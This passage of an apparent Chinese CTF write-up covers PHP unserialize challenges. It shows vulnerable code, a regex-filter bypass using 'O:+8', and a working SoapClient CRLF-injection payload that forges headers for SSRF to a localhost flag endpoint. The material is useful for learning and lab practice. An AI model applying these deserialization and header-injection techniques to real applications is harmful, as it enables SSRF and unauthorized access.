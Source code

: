 ```php
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}

```

==/[oc]:\d+:/i==。意思是过滤这两种情况：==o==:==数字==:与==c==:==数字==:

看了下一些师傅们的博客，解释说，在c源码当中有一段处理‘+’字符的方式，所以在序列化的内容当中，O:8和O:+8是一样的

#### SoapClient与CRLF组合拳

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']); array_pop($xff); $ip = array_pop($xff);  if($ip!=='127.0.0.1'){ die('error'); }else{ $token = $_POST['token']; if($token=='ctfshow'){ 	file_put_contents('flag.txt',$flag); } }
```

```php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

可以通过Y4师傅的[文章](https://y4tacker.blog.csdn.net/article/details/110521104)了解一下。

我自己的想法就是，关于CRFL攻击就是一个请求包的注入，通过==/r/n==的方式来去满足包内的格式，从而控制包中的内容实现注入。而`SoapClient`类，调用一个不存在的函数，会去调用`__call`方法。

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'yun0tian^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
```

在请求包当中，可控的==`SOAPAction`==处还有==`User-Agent`==处，借用Y4师傅博客的一张图显示
